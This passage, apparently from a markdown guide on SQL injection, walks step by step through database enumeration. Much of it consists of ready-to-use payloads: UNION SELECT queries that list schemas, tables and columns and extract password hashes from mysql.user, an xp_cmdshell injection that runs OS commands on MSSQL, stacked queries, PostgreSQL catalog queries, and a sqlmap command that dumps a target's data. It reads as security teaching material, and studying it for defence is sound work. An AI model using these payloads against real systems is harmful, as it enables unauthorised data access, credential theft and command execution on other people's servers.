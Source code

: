 #### **D. Built-In Functions**  
Using `GROUP_CONCAT()` to merge rows into a single string:  
```sql  
' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables--  
```  
This simplifies data extraction by consolidating multiple table names into one field.  

---

### **3. Step-by-Step Enumeration Process**  
Attackers follow a structured workflow to map the database:  

| **Step**               | **Action**                                                                 | **Example Payload**                                                                 |  
|-------------------------|---------------------------------------------------------------------------|------------------------------------------------------------------------------------|  
| **1. List Databases**   | Enumerate accessible databases.                                           | `' UNION SELECT schema_name FROM information_schema.schemata--`                     |  
| **2. Enumerate Tables** | List tables in a specific database.                                       | `' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='db'--` |  
| **3. Extract Columns**  | Identify columns in a target table (e.g., `users`).                      | `' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--` |  
| **4. Retrieve Credentials** | Extract user credentials from system tables.                          | `' UNION SELECT User, Host, Authentication_String FROM mysql.user--` (MySQL)         |  

---

### **4. Database-Specific Exploits**  
Attackers tailor techniques to the target DBMS:  

- **MSSQL**:  
  - **Stored Procedures**: Abuse `xp_cmdshell` (if enabled) to execute OS commands:  
    ```sql  
    ' EXEC master..xp_cmdshell 'net user'--  
    ```  
  - **System Views**: Query `sys.sql_logins` for user credentials.  

- **MySQL**:  
  - **Stacked Queries**: Bypass input sanitization with:  
    ```sql  
    '; SHOW TABLES--  
    ```  
  - **Direct Access**: Use `SHOW DATABASES`/`SHOW TABLES` in unfiltered inputs.  

- **PostgreSQL**:  
  - **Catalog Tables**: Exploit `pg_catalog.pg_tables` to list tables:  
    ```sql  
    ' UNION SELECT tablename FROM pg_tables--  
    ```  

---

### **5. Tool Automation**  
Tools like **SQLMap** automate the process:  
```bash  
sqlmap -u "http://target.com/page" \  
       --tables \          # List tables in the current database  
       --columns \         # Enumerate columns in a table  
       --dump \            # Extract data from a table  
       --batch            # Run without user interaction  
```  
This command sequence maps the database structure and dumps sensitive data.  

---